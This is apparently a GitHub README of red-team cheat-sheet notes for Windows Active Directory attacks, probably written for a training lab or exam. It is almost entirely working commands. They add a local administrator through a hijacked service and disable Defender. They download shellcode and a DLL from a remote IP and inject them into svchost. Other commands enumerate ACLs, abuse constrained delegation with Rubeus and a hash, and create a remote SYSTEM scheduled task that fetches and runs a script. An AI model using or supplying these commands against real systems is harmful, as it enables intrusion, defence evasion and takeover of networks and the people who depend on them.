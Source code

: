 # GOC2

## Notes

* create user to privesc

```
shell sc config SNMPTRAP binPath= 'C:\\windows\system32\cmd.exe /c net user tester dawoof7123!!! /add && net localgroup Administrators tester /add'
shell sc config SNMPTRAP start= 'demand'
```

* convert command to powershell b64
```
echo -n '$s=($(IWR -Uri http://172.16.99.201/srdi.bin -UseBasicParsing).Content);$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://172.16.99.201/TurtleToolKit.dll -UseBasicParsing).Content);Import-Module -Assembly $a;Invoke-SpawnInject -shellcode $s -exeName svchost.exe' | iconv -t UTF16LE -f UTF8 | base64 -w0
```

* powershell callback 
```
powershell.exe -c "$s=($(IWR -Uri http://172.16.99.201/srdi.bin - UseBasicParsing).Content);$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://172.16.99.201/TurtleToolKit.dll -UseBasicParsing).Content);Import-Module -Assembly $a;Invoke-SpawnInject -shellcode $s -exeName svchost.exe'"
```

* Get Applocker Policy / Check Langauge Mode
```
Get-AppLockerPolicy -Effective -Xml
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`
$ExecutionContext.SessionState.LanguageMode
```

* Turn off defender

```
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose`
```


* PowerView
Check current user for acls.
```
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

* winrm code exec

```
dcorp-adminsrv 5985 'powershell.exe -c "rundll32 C:\\c.dll,Execute"' 0
```

* sharp hound
```
spawn-inject-pipe C:\tmp\ExamTools\DonutPayloads\sharphound.donut svchost.exe 10
```



* check for constained delegation powerview/sharpview
```
Get-DomainComputer -Unconstrained
```
* check for unconstrained delegation powerview/sharpview

```
Get-DomainComputer -TrustedToAuth
```


* rubueas constrained delegation example
```
s4u /user:studvm$ /rc4:4067279bbc60f6e9b19d2603ccfdfd88 /impersonateuser:Administrator /msdsspn:"CIFS/mgmtsrv.tech.finance.corp" /altservice:HOST /ptt
```

* scheduled task pivot example using host ticket.

```
schtasks /create /S mgmtsrv.tech.finance.corp /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.99.11/gotim.ps1''')'"

schtasks /Run /S mgmtsrv.tech.finance.corp /TN "SomeTaskName"
```